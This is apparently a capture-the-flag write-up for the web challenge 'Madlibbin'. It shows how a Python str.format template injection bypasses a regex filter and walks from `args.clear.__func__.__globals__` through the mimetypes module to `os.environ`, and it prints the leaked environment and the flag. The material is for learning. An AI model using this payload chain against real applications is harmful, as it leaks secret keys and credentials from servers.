 # Madlibbin
Web (150 points, 26 solves)

## Challenge 

The Pastebin for Mad Libs: [Madlibbin](https://madlibbin.2019.chall.actf.co/), completely [open source](https://files.actf.co/30a52364fe87209004ea36a7c43d9a055fc197a46b7f2bf423ca7c9e197fc588/madlibbin.zip)! Have fun madlibbin'!

Author: defund

## Solution

Note: I did not solve this during the contest. 

Looking at the source code, we see that the app lets us write a madlib-type text with multiple blanks that are filled in at render time. This sounds just like SSTI...

Unfortunately, there is some parsing involved.

```python
parse = lambda x: list(dict.fromkeys(re.findall(r'(?<=\{args\[)[\w\-\s]+(?=\]\})', x)))
```

This is meant to parse out only properly formatted blanks like `{args[foo]}`. But, in doing this it must allow `{}` and `[]`. So, if our payload starts with `{args`, ends with `}`, and only uses letters and square brackets, then it should pass the check. We can continue with our SSTI, it just needs to start at `args`. 

Our goal is to get to `os.environ`, since the flag is in there.

```python
app.secret_key = os.environ.get('FLAG')
```

Putting just `{args}` in, we get `ImmutableMultiDict([])`. By using `__func__.__globals__`, we can get to `__globals__` through a function. `ImmutableMultiDict` has a function `clear`, lets use that. 

```python
{args.clear.__func__.__globals__}
```

```python
{'__name__': 'werkzeug.datastructures', '__doc__': '\n    werkzeug.datastructures\n    ~~~~~~~~~~~~~~~~~~~~~~~\n\n    This module provides mixins and classes with an immutable interface.\n\n    :copyright: 2007 Pallets\n    :license: BSD-3-Clause\n', '__package__': 'werkzeug', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7ff11f9de9e8>, '__spec__': ModuleSpec(name='werkzeug.datastructures', loader=<_frozen_importlib_external.SourceFileLoader object at 0x7ff11f9de9e8>, origin='/usr/local/lib/python3.7/site-packages/werkzeug/datastructures.py'), '__file__': '/usr/local/lib/python3.7/site-packages/werkzeug/datastructures.py', '__cached__': '/usr/local/lib/python3.7/site-packages/werkzeug/__pycache__/datastructures.cpython-37.pyc', 
...
```

We get a bunch of globals. At least one of these has `os`, right? To find one, I `grep`ed for `import os` in my Python lib folder. 

```
$ grep -E "^import os" *.py
argparse.py:import os as _os
asyncore.py:import os
bdb.py:import os
binhex.py:import os
CGIHTTPServer.py:import os
cgi.py:import os
cgitb.py:import os
compileall.py:import os
dircache.py:import os
dumbdbm.py:import os as _os
filecmp.py:import os
ftplib.py:import os
genericpath.py:import os
getopt.py:import os
getpass.py:import os, sys, warnings
glob.py:import os
httplib.py:import os
ihooks.py:import os
inspect.py:import os
linecache.py:import os
macpath.py:import os
macurl2path.py:import os
mailbox.py:import os
mailcap.py:import os
mhlib.py:import os
mimetools.py:import os
mimetypes.py:import os
modulefinder.py:import os
netrc.py:import os, stat, shlex
ntpath.py:import os
os2emxpath.py:import os
_osx_support.py:import os
pdb.py:import os
pipes.py:import os
pkgutil.py:import os
pkgutil.py:import os.path
popen2.py:import os
posixpath.py:import os
profile.py:import os
pstats.py:import os
pty.py:import os
py_compile.py:import os
_pyio.py:import os
rexec.py:import os
shlex.py:import os.path
shutil.py:import os
SimpleHTTPServer.py:import os
SimpleXMLRPCServer.py:import os
site.py:import os
smtpd.py:import os
socket.py:import os, sys, warnings
SocketServer.py:import os
ssl.py:import os
subprocess.py:import os
sysconfig.py:import os
tabnanny.py:import os
tarfile.py:import os
tempfile.py:import os as _os
toaiff.py:import os
trace.py:import os
urllib2.py:import os
urllib.py:import os
user.py:import os
uuid.py:import os
uu.py:import os
webbrowser.py:import os
whichdb.py:import os
```

[Searching for all of these](solve.py) in our globals, we find that we have `mimetypes` imported. We can get to it through globals.

```python
{args.clear.__func__.__globals__[mimetypes]}
```

```python
<module 'mimetypes' from '/usr/local/lib/python3.7/mimetypes.py'>
```

From here, it is easy.

```python
{args.clear.__func__.__globals__[mimetypes].os.environ}
```

```python
environ({'PATH': '/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin', 'HOSTNAME': '94659f75b57f', 'VIRTUAL_HOST': 'madlibbin.2019.chall.actf.co', 'LANG': 'C.UTF-8', 'GPG_KEY': '0D96DF4D4110E5C43FBFB17F2D347EA6AA65421D', 'PYTHON_VERSION': '3.7.3', 'PYTHON_PIP_VERSION': '19.0.3', 'FLAG': 'actf{traversed_the_world_and_the_seven_seas}', 'HOME': '/root', 'SERVER_SOFTWARE': 'gunicorn/19.9.0'})
```

## Flag

```
actf{traversed_the_world_and_the_seven_seas}
```
